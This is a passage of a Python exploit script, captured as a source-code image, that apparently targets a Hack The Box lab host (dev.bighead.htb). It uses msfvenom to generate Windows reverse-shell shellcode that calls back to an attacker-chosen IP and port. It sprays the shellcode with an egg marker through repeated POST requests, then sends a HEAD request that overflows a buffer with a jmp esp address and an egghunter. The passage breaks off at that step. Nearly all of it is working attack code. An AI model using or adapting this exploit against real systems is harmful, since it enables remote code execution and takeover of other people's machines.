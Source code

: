      16     for f in files:
     17         try:
     18             os.remove(f)
     19         except:
     20             pass
     21     sys.exit()
     22 
     23 
     24 if len(sys.argv) != 5:
     25     clean_and_exit("%s [target] [target port] [callback ip] [callback port]" % (sys.argv[0]), [])
     26 
     27 target = sys.argv[1]
     28 port = sys.argv[2]
     29 cb_ip = sys.argv[3]
     30 cb_port = sys.argv[4]
     31 
     32 # Generate Shellcode 
     33 msfvenom_string = 'msfvenom -p windows/shell_reverse_tcp LHOST=%s LPORT=%s EXIT_FUNC=THREAD -a x86 --platform windows -b "\\x00\\x0a\\x0d" -f python -v shellcode -o sc.py' % (cb_ip, cb_port)
     34 print("[*] Generating shellcode:\n    %s" % msfvenom_string)
     35 p = subprocess.Popen(msfvenom_string.split(' '), stdout=subprocess.PIPE, stderr=subprocess.PIPE)
     36 out, err = p.communicate()
     37 
     38 try:
     39     if "Error" in err:
     40         raise Exception("[-] Unable to generate shellcode\n    %s" % err)
     41     from sc import shellcode
     42 except (NameError, Exception) as e:
     43     clean_and_exit(e.message, ['sc.py', 'sc.pyc'])
     44 
     45 print "[+] Shellcode generated successfully"
     46 os.remove('sc.py')
     47 os.remove('sc.pyc')
     48 
     49 # !mona egg -t
     50 egg = '0xdf'
     51 egghunter = "6681caff0f42526a0258cd2e3c055a74efb8" + egg.encode('hex') + "8bfaaf75eaaf75e7ffe7"
     52 
     53 nops = "\x90"*16
     54 spray = egg + egg + nops + shellcode
     55 post = 'POST / HTTP/1.1\r\nHost: dev.bighead.htb\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: {}\r\n\r\n'.format(len(spray))
     56 spray_payload = post + spray
     57 
     58 head = "HEAD /"
     59 junk = "1" * (78-len(head))
     60 jmp_esp = "f0125062" #p32(0x625012f0)
     61 host = " HTTP/1.1\r\nHost: dev.bighead.htb\r\n\r\n"
     62 exec_payload = head + junk + jmp_esp + egghunter + host
     63 
     64 print("[*] Sending payload 5 times")
     65 for i in range(5):
     66     p = remote(target, port)
     67     #print(spray_payload)
     68     p.sendline(spray_payload)
     69     p.recv()
     70     p.close()
     71     sleep(0.1)
     72 
     73 print("[+] Payload sent.\n[*] Sleeping 1 second.")
     74 sleep(1)
     75 
     76 print("[*] Sending overflow + egghunter.")